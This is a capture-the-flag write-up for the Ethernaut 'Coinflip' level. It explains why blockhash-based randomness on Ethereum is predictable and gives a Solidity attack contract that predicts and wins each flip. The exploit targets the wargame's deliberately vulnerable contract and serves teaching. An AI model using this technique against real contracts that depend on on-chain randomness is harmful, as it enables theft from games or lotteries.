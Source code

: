 <div align="center">

<img src="../assets/levels/3-coinflip.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 3 - Coinflip</strong></h1>

</div>

## Objectif

<img src="../assets/requirements/3-coinflip-requirements.webp" width="800px"/>

## The hack

Everything in the EVM is deterministic. This means that entropy doesn't exist on-chain (except using third party solution like [Chainlink VRF](https://docs.chain.link/vrf/)).
The solution used in the `CoinFlip` contract is only pseudo-random. So we can predict the next flip by using the same logic as the contract.
Once done, we can call the `flip` function with the predicted value and repeat this 10 times to win the level.

## Solution

We can craft a smart contract that reproduce the same logic as the `CoinFlip` contract to predict the next flip and call the `flip` function with the predicted value.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

interface ICoinFlip {
    function flip(bool) external returns (bool);
}

contract Unflip {
    address constant coinflip = 0xb721D5C58B4B2d7Fc82084541C639A6b6E3CBf73; // Replace with your CoinFlip instance
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function playToWin() private view returns (bool) {
        uint256 pastBlockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlipResult = pastBlockValue / FACTOR;
        return coinFlipResult == 1 ? true : false;
    }

    function attack() public {
        ICoinFlip(coinflip).flip(playToWin());
    }
}
```

## Takeaway

- Entropy is not trivial on the blockchain
- Global variables should not be used to generate "randomness"
- Great read on this: https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
